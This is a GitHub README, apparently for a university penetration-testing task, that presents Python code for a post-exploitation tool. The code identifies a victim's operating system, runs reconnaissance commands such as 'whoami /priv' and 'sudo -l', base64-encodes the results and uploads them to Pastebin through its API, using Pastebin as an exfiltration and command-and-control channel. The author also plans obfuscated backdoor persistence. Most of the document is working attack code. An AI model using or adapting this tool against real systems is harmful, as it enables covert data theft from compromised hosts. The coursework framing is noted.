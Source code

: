 # Pastebin API Experiment as Post-Exploitation C2

## The Background

This project has been done to complete a GLS University Task which was given in
_Programming for Penetration Testing_.

Created by myself,
Felix Alexander (2301859253)


The project itself has a functionality to forward all the basic information data that can
be retrieved from the `victim host` to `Pastebin` with its own API.

Prerequisites:
* API Developer Key
* Pastebin Username
* Pastebin Password
* Arbitrary Data/Content

## Snippets Code Review

The following script is required to get OS Info of the victim, whether it's `Windows` or `Linux` or
`OS X`, with a little help from `sys` Python's module.

```python
def osinfo():
	  poss_plat = {
      'linux':'Linux',
      'linux1':'Linux',
      'linux2':'Linux',
      'win32':'Windows',
      'cygwin':'Windows',
      'msys':'Windows',
      'darwin':'OS X',
      'os2':'OS X',
      'os2emx':'OS X'
	}
	return poss_plat[sys.platform]
  ```
  
  In order to retrieve what data that can be retrieved, we need to know how the desired data will be parsed
  from each of unique victim OS. Therefore, there's an OS classification for executing each command.
  The following snippets will do:
  
  ```python
  def execute_cmd(cmd):
      try:
        cmd = cmd.decode()
      except (UnicodeDecodeError, AttributeError):
        pass
      if cmd == "sudo -l":
        prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
        out, err = prc.communicate()
        if re.search("incorrect",err.decode(),re.IGNORECASE):
          return b"Unprivileged / Not sudoers"
      prc = subprocess.Popen(cmd, stdin = subprocess.PIPE , stdout = subprocess.PIPE, stderr = subprocess.PIPE, shell = True)
      out, err = prc.communicate()
      return out


def info_gathering(os):
	command = []
	if os == "Windows":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + execute_cmd('hostname') + b"\n")
		command.append(b"Priv:\n" + execute_cmd('whoami /priv') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
	elif os == "Linux" or os == "OS X":
		logged_user = getpass.getuser()
		command.append(b"Hostname:\n" + socket.gethostname().encode() + b"\n")
		command.append(b"Priv:\n" + execute_cmd('sudo -l') + b"\n")
		command.append(b"Logged user (currently):\n"+logged_user.encode())
		cmd = base64.b64encode(b"".join(command))
		return cmd
```

After the desired data has been retrieved, it'll be encoded as Base64 Byte-Objects Strings, which will be forwarder to the
API.

## Pastebin API

The following script will handle the pastebin auth and the upload process, where all the prerequisites data will be processed as
JSON Data to be requested to the API Post URL.

```python
def pastebin_upload(tl, data):
      name = '' #fill your pastebin username
      pw = '' #fill your pastebin password
      api_key = ''  #fill your api dev key (from tab API)
      auth = 'https://pastebin.com/api/api_login.php'
      auth_json = {
        'api_dev_key':api_key,
        'api_user_name':name,
        'api_user_password': pw
      }
      r = requests.post(auth, data=auth_json)
      api_user_key = r.text
      paste_post = 'https://pastebin.com/api/api_post.php'
      paste_json = {
        'api_paste_name':tl,
        'api_paste_code':data.decode(),
        'api_dev_key':api_key,
        'api_user_key':api_user_key,
        'api_option':'paste',
        'api_paste_private':0
      }
      r = requests.post(paste_post, data=paste_json)
      try:
        print("Retrieving the link!")
        print(r.text)
      except:
        print("Failed")
```
Note that, there are 3 values that need to be filled (crucial). The auth URL is stored in the `auth` variable, and the
API Url which will be processed to receive the post data is stored in `paste-post` variable.

## TBA

I'm planning on adding some persistence mode that will assign a backdoor on each unique OS with obfuscated
Python bytecodes so that the attacker can still connect to the OS Victim.

## References
https://www.amazon.com/Black-Hat-Python-2nd-Programming/dp/1718501129 (pg. 146)
